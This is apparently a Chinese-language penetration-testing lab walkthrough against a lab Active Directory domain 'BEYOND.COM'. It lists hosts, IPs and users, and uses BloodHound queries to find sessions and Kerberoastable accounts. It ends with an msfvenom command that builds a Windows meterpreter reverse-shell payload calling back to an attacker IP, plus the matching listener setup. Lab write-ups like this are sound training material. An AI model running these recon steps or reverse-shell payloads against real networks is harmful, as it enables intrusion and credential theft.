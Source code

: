 获得

```armasm
DCSRV1.BEYOND.COM - Windows Server 2022 Standard
INTERNALSRV1.BEYOND.COM - Windows Server 2022 Standard
MAILSRV1.BEYOND.COM - Windows Server 2022 Standard
CLIENTWK1.BEYOND.COM - Windows 11 Pro
```

查ip

```armasm
nslookup INTERNALSRV1.BEYOND.COM
```

获得

```armasm
172.16.6.240 - DCSRV1.BEYOND.COM
-> Domain Controller

172.16.6.241 - INTERNALSRV1.BEYOND.COM

172.16.6.254 - MAILSRV1.BEYOND.COM
-> Mail Server
-> Dual Homed Host (External IP: 192.168.50.242)

172.16.6.243 - CLIENTWK1.BEYOND.COM
-> User _marcus_ fetches emails on this machine
```

用户

```armasm
BECCY
JOHN
DANIELA
MARCUS
```

使用gui功能查询域管Find all Domain Admins（beccy）

没发现其他有用的信息，查询服务和会话

查询当前活跃会话

```armasm
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

域管理员帐户Beccy在MAILSRV1上有一个活动会话，使用gui页面的“List all Kerberoastable Accounts”功能，发现krbtgt和daniela

在gui的Node Info中查看SPN节点，发现http/internalsrv1.beyond.com

在CLIENTWK1上做代理

```armasm
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.119.5
set LPORT 443
set ExitOnSession false
run -j
```
